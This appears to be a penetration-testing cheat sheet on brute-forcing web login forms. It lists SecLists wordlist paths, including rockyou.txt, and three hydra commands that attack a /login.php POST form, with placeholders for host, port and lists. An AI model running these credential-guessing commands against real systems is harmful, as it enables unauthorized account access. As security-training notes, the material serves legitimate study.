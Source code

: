 # 👤 Login brute force

## Lists in Kali

### Usernames and passwords

```
/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
```

### Usernames

```
/opt/useful/SecLists/Usernames/Names/names.txt
```

### Passswords

```
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

## hydra

### Using a user and password list

```bash
hydra -C <list> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:Login"
```

### Using user admin and password list

```bash
hydra -l admin -P <passwords> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```

### Using different lists for username and password

```bash
hydra -L <usernames> -P <passwords> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```
